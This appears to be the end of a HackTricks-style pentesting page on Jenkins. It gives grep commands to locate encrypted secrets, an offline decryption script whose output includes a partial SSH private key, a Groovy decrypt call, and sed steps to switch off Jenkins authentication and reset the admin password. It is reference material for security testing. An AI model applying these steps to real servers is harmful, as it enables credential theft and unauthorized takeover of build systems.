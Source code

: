 ```bash
# Find the secrets
grep -re "^\s*<[a-zA-Z]*>{[a-zA-Z0-9=+/]*}<"
# Print only the filenames where the secrets are located
grep -lre "^\s*<[a-zA-Z]*>{[a-zA-Z0-9=+/]*}<"

# Secret example
credentials.xml: <secret>{AQAAABAAAAAwsSbQDNcKIRQMjEMYYJeSIxi2d3MHmsfW3d1Y52KMOmZ9tLYyOzTSvNoTXdvHpx/kkEbRZS9OYoqzGsIFXtg7cw==}</secret>
```

#### Decrypt Jenkins secrets offline

If you have dumped the **needed passwords to decrypt the secrets**, use [**this script**](https://github.com/gquere/pwn_jenkins/blob/master/offline_decryption/jenkins_offline_decrypt.py) **to decrypt those secrets**.

```bash
python3 jenkins_offline_decrypt.py master.key hudson.util.Secret cred.xml
06165DF2-C047-4402-8CAB-1C8EC526C115
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAt985Hbb8KfIImS6dZlVG6swiotCiIlg/P7aME9PvZNUgg2Iyf2FT
```

#### Decrypt Jenkins secrets from Groovy

```bash
println(hudson.util.Secret.decrypt("{...}"))
```

### Create new admin user

1. Access the Jenkins config.xml file in `/var/lib/jenkins/config.xml` or `C:\Program Files (x86)\Jenkis\`
2. Search for the word `<useSecurity>true</useSecurity>`and change the word \*\*`true` \*\* to **`false`**.
   1. `sed -i -e 's/<useSecurity>true</<useSecurity>false</g' config.xml`
3. **Restart** the **Jenkins** server: `service jenkins restart`
4. Now go to the Jenkins portal again and **Jenkins will not ask any credentials** this time. You navigate to "**Manage Jenkins**" to set the **administrator password again**.
5. **Enable** the **security** again by changing settings to `<useSecurity>true</useSecurity>` and **restart the Jenkins again**.

## References

- [https://github.com/gquere/pwn_jenkins](https://github.com/gquere/pwn_jenkins)
- [https://leonjza.github.io/blog/2015/05/27/jenkins-to-meterpreter---toying-with-powersploit/](https://leonjza.github.io/blog/2015/05/27/jenkins-to-meterpreter---toying-with-powersploit/)
- [https://www.pentestgeek.com/penetration-testing/hacking-jenkins-servers-with-no-password](https://www.pentestgeek.com/penetration-testing/hacking-jenkins-servers-with-no-password)
- [https://www.lazysystemadmin.com/2018/12/quick-howto-reset-jenkins-admin-password.html](https://www.lazysystemadmin.com/2018/12/quick-howto-reset-jenkins-admin-password.html)
- [https://medium.com/cider-sec/exploiting-jenkins-build-authorization-22bf72926072](https://medium.com/cider-sec/exploiting-jenkins-build-authorization-22bf72926072)
- [https://medium.com/@Proclus/tryhackme-internal-walk-through-90ec901926d3](https://medium.com/@Proclus/tryhackme-internal-walk-through-90ec901926d3)

{{#include ../../banners/hacktricks-training.md}}
